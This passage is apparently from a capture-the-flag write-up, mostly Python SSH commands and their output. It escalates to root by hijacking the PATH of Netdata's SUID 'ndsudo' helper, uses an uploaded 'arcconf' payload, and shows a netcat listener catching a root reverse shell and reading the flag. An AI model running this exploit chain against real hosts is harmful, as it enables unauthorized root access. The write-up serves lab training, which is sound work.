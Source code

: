 Finally we ship our payload and ensure it's ready to run


```python
oliver_ssh.put('arcconf', '/home/oliver/arcconf')
print(oliver_ssh.exec('chown 1000:999 /home/oliver/arcconf'))
print(oliver_ssh.exec('chmod 777 /home/oliver/arcconf'))
print(oliver_ssh.exec('ls -alhn /home/oliver/'))

```

    
    
    total 2.2M
    drwxr-x--- 3 1000 1000 4.0K Aug  3 04:38 .
    drwxr-xr-x 3    0    0 4.0K Jul  8 08:34 ..
    -rwxrwxrwx 1 1000  999 757K Aug  3 04:38 arcconf
    -rwsr-sr-x 1    0 1000 1.4M Aug  3 04:27 bash
    lrwxrwxrwx 1    0    0    9 Jul  1 19:19 .bash_history -> /dev/null
    -rw-r--r-- 1 1000 1000  220 Jun 13 09:45 .bash_logout
    -rw-r--r-- 1 1000 1000 3.7K Jun 13 09:45 .bashrc
    drwx------ 2 1000 1000 4.0K Jul  8 08:34 .cache
    -rw-r--r-- 1 1000 1000  807 Jun 13 09:45 .profile
    -rw-r----- 1    0 1000   33 Aug  2 19:02 user.txt


Here's validation that SUID is set correctly for our scenario:


```python
print(oliver_ssh.exec('stat /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo'))
```

    File: /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
      Size: 200576    	Blocks: 392        IO Block: 4096   regular file
    Device: 802h/2050d	Inode: 49411       Links: 1
    Access: (4750/-rwsr-x---)  Uid: (    0/    root)   Gid: (  999/ netdata)
    Access: 2025-08-02 19:01:19.967998975 +0000
    Modify: 2024-04-01 15:37:52.000000000 +0000
    Change: 2025-07-08 08:34:35.912296731 +0000
     Birth: 2025-06-15 16:32:57.965202926 +0000


And finally executing our payload with the path updated:


```python
oliver_ssh.exec('export PATH=$PATH:/home/oliver; /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo arcconf-ld-info')
```




    ''



Our listener now catches the shell and we are root.

```sh
 nc -lvn 9999
Listening on 0.0.0.0 9999
Connection received on 10.129.191.67 41242
whoami
root
cat /root/root.txt
d4d8422dfbb9ffccd9f3fedcd9a4b668
```